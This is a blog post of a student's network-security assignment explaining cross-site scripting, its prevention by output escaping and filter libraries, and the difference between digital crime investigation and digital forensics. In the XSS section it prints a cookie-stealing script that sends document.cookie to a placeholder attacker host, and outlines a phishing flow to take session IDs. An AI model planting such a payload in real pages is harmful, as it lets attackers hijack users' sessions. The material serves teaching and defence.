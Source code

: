 ```yaml
---
layout: post
title: My Opinion of XSS/CSS, Digital Forensic, and Digital Crime Investigation when I was a Young Student
categories: masters
tags: [technology, computers, XSSCSS, digital forensic, assignment]
featuredimage: https://steemitimages.com/640x0/https://images.blurt.buzz/DQmbds3FcyD2UnctK7GepM8BFibTnGwd1vJjVAmvXHm3KHC/0.featured-image.png
description: My Opinion of XSS/CSS, Digital Forensic, and Digital Crime Investigation when I was a Young Student
canonicalurl: https://0fajarpurnama0.github.io/masters/2020/07/20/opinion-xsscss-digital-forensic-crime-investigation
---
```

![0.featured-image.png](https://steemitimages.com/640x0/https://images.blurt.buzz/DQmbds3FcyD2UnctK7GepM8BFibTnGwd1vJjVAmvXHm3KHC/0.featured-image.png)


## Note

This is the fourteenth assignment from my Masters Advanced Network Security Course which has never been published anywhere and I, as the author and copyright holder, license this assignment customized CC-BY-SA where anyone can share, copy, republish, and sell on condition to state my name as the author and notify that the original and open version available here.

## 1\. XSS/CSS

XSS/CSS stands for cross site scripting which is a computer security vulnerability to inject scripts into web pages viewed by other users [1]. What is the difference between code injection? Code injection is a server side vulnerability while XSS is a client side vulnerability, what they have in common is they are injection type attack [2]. One of the easiest method to check for XSS vulnerability is to include a html tags into the submission form, for example on Figure 1 is an ```<S>``` (strike-through) html tag inserted on a simple php form input (any php tutorial on the web have this tutorial) and Figure 2 is an example of using ```<img src=””>``` tag to add an image, even worse we can input tags that could display the attacker site instead and take the victim site with ```<script>```document.location="http://some_attacker/cookie.cgi?" + document.cookie```</script>```. (1) Once a XSS vulnerability had been found we can send a phising email to the user of the site containing the XSS script. (2) With a good social engineering the user site can be tricked in running the code and connect to attacker's site through the vulnerable XSS site. (3) The attacker can obtain the session ID and other informations of the victim. [3]

![1.strikethroughXSSexample.png](https://steemitimages.com/640x0/https://images.blurt.buzz/DQmYm6X16ideByV9t7ZAJnXb5ypBVHbq3khnuhkvkkB4AYz/1.strikethroughXSSexample.png)

Figure 1\. Checking XSS vulnerability strike through HTML tag example.



To prevent XSS we have to filter the user input. One way is to not allow html tags for, or perform sensitization allowing text formatting tag such as ```<B>``` ```<U>``` ```<I>``` ```<S>```, and converting dangerous tags like “&→&amp”, “&lt→&lt”, “&gt→&gt”, “”→&quot”, “'→&x27”, and “/→&x2f”. For my above PHP code I can fix it by changing the output function (adding) into “echo htmlspecialchars($string, ENT_QUOTES, 'UTF-8')”. There are libraries available for filtering XSS if it's difficult to make our own libraries such as “PHP AntiXSS”, “xss_clean.php filter”, “htmlpurifier”, “xssprotect”, and “XSS html filter”. [4]

![2.imgsrcXSS.png](https://steemitimages.com/640x0/https://images.blurt.buzz/DQmYqWwbtpStpvT7u52VrGNSTGKKnaGh5c9tuZtAAmAhGyE/2.imgsrcXSS.png)

Figure 2\. Checking XSS vulnerability image HTML tag example.



## 2\. Digital Crime Investigation vs Digital Forensic

Digital crime investigation is mainly used in criminal investigation in order to enhance the criminal investigation process itself. It's more like an auxiliary to tool in which is specifically digital typed tools. For example (1) the use of surveillance camera to capture robbery incident in stores, (2) categorizing data, clustering data, plotting graph, which is under data mining, (3) using database to store crime records. On the other hand digital forensic is to extract, collect, analyze, and preserve digital evidence, for example to be shown in court. [5]

![3.digital-forensic-on-hardware.png](https://steemitimages.com/640x0/https://images.blurt.buzz/DQmautrcqEVMghJ5C6GvKa4N5CRGqAoG187s1oh7zcFSMWi/3.digital-forensic-on-hardware.png)

Figure 3\. Illustration of digital forensic on hardware containing data.



Both digital crime investigation and digital forensic are part of a subject called forensic science. Performing autopsy on a dead body to find the cause of death is an example of medical forensic. Then examining a computer to search for informations of itself being attacked is an example of digital forensic. The basic step is to (1) identify the attack, its extent and damage caused, (2) identify the source of the attack, (3) record the incident. The scope of digital forensic can be computer forensic as example above, or network forensic which the larger scale with the computer forensic included into the network forensic. Unlike medical forensic we can first create a duplicate of the computer data or network data before running digital forensic which is a safe type of investigation that avoids the risk of destroying the evidence. Most popularly examined on digital forensics are maintenance of files and folders, disk logs, server logs, logs from IDS/IPS, and network packets if captured. [5]

## 3\. Reference

1.  [https://en.wikipedia.org/wiki/Cross-site_scripting](https://en.wikipedia.org/wiki/Cross-site_scripting)
2.  [https://community.rapid7.com/community/nexpose/blog/2013/06/20/xss-vs-injection](https://community.rapid7.com/community/nexpose/blog/2013/06/20/xss-vs-injection)
3.  [http://md.kumamoto-u.ac.jp/mod/book/view.php?id=98590&chapterid=4892](http://md.kumamoto-u.ac.jp/mod/book/view.php?id=98590&chapterid=4892)
4.  [http://resources.infosecinstitute.com/how-to-prevent-cross-site-scripting-attacks](http://resources.infosecinstitute.com/how-to-prevent-cross-site-scripting-attacks)
5.  [http://md.kumamoto-u.ac.jp/mod/book/view.php?id=98593&chapterid=4897](http://md.kumamoto-u.ac.jp/mod/book/view.php?id=98593&chapterid=4897)

## Mirrors

*   [https://www.publish0x.com/fajar-purnama-academics/my-opinion-of-xsscss-digital-forensic-and-digital-crime-inve-xlyemxz?a=4oeEw0Yb0B&tid=github](https://www.publish0x.com/fajar-purnama-academics/my-opinion-of-xsscss-digital-forensic-and-digital-crime-inve-xlyemxz?a=4oeEw0Yb0B&tid=github)
*   [https://0darkking0.blogspot.com/2021/02/my-opinion-of-xsscss-digital-forensic.html](https://0darkking0.blogspot.com/2021/02/my-opinion-of-xsscss-digital-forensic.html)
*   [https://0fajarpurnama0.medium.com/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student-125b754a3a89](https://0fajarpurnama0.medium.com/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student-125b754a3a89)
*   [https://0fajarpurnama0.github.io/masters/2020/07/20/opinion-xsscss-digital-forensic-crime-investigation](https://0fajarpurnama0.github.io/masters/2020/07/20/opinion-xsscss-digital-forensic-crime-investigation)
*   [https://hicc.cs.kumamoto-u.ac.jp/~fajar/masters/opinion-xsscss-digital-forensic-crime-investigation](https://hicc.cs.kumamoto-u.ac.jp/~fajar/masters/opinion-xsscss-digital-forensic-crime-investigation)
*   [https://steemit.com/technology/@fajar.purnama/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student?r=fajar.purnama](https://steemit.com/technology/@fajar.purnama/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student?r=fajar.purnama)
*   [https://stemgeeks.net/technology/@fajar.purnama/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student?ref=fajar.purnama](https://stemgeeks.net/technology/@fajar.purnama/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student?ref=fajar.purnama)
*   [https://blurtter.com/blurtech/@fajar.purnama/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student?referral=fajar.purnama](https://blurtter.com/blurtech/@fajar.purnama/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student?referral=fajar.purnama)
*   [https://0fajarpurnama0.wixsite.com/0fajarpurnama0/post/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student](https://0fajarpurnama0.wixsite.com/0fajarpurnama0/post/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student)
*   [http://0fajarpurnama0.weebly.com/blog/my-opinion-of-xsscss-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student](http://0fajarpurnama0.weebly.com/blog/my-opinion-of-xsscss-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student)
*   [https://0fajarpurnama0.cloudaccess.host/index.php/9-fajar-purnama-academics/205-my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student](https://0fajarpurnama0.cloudaccess.host/index.php/9-fajar-purnama-academics/205-my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student)
*   [https://read.cash/@FajarPurnama/my-opinion-of-xsscss-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student-81cbb266](https://read.cash/@FajarPurnama/my-opinion-of-xsscss-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student-81cbb266)
*   [https://www.uptrennd.com/post-detail/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student~ODYyMzY4](https://www.uptrennd.com/post-detail/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student~ODYyMzY4)